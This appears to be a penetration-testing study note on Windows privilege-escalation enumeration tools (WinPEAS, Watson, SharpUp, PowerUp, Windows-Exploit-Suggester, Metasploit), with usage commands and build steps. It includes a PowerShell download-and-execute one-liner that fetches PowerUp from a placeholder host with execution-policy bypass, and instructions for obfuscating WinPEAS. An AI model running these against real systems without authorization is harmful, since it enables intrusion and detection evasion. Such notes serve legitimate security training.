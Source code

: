 # Automated Issues Finders

## WinPEAS

- Tool for finding priv esc paths in windows
- Performs a lot of checks to then go through
- uses colour highlighting to find information quickly

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS

- .exe and .bat file
- can download obfuscated version or compile

### Commands

```
winpeas.exe cmd searchall searchfast #cmd commands, search all filenames and avoid sleepig (noisy - CTFs)
winpeas.exe #Will execute all checks except the ones that use a CMD
winpeas.exe cmd #All checks
winpeas.exe systeminfo userinfo #Only systeminfo and userinfo checks executed
winpeas.exe notcolor #Do not color the output
```

### Compile

- install dotfuscator
- **Compile** winpeas in VisualStudio
- **Open dotfuscator** app
- **Open** in dotfuscator **winPEAS.exe compiled** before and **Microsoft.Win32.TaskScheduler.dll** (is in the same folder as winPEAS.exe)
- Click on **Build**
- The **single, minimized and obfuscated binary** will appear in a **folder called Dotfuscator inside the folder were winPEAS.exe** and the DLL were (this location will be saved by dotfuscator and by default all the following builds will appear in this folder).

## Watson

https://github.com/rasta-mouse/Watson

- Enumerates missing KB's and suggests exploits
- You need to know the version of .net running on the target system

```
C:\windows\microsoft.net\framework\
```



### Compiling

- Open in Visual Studio
- Solution Explorer > Properties > Target Framework
- Make the value align with the version of .net running on the target
- Build the project

### Commands

```
C:/> watson.exe
```

## SharpUp

https://github.com/GhostPack/SharpUp

- C# port of PowerUp

### Compile

- Open the .sln in Visual Studio
- choose "release"
- Build

### commands

```
SharpUp.exe audit
```

## PowerUp

https://github.com/PowerShellMafia/PowerSploit/tree/dev/Privesc

### Commands

```
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks
```

To Download and run in memory:

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ip/PowerUp.ps1');Invoke-AllChecks"
```

## Windows-Exploit-Suggester

https://github.com/AonCyberLabs/Windows-Exploit-Suggester

- You run locally on your machine, and give it the systeminfo input from the system you are reviewing

### Commands

```
windows-exploit-suggester.py --update

windows-exploit-suggester.py --database blah.xlsx --systeminfo blah.txt
```

## Metasploit

- Metasploit has a post exploitation module

```
run post/multi/recon/local_exploit_suggester
```

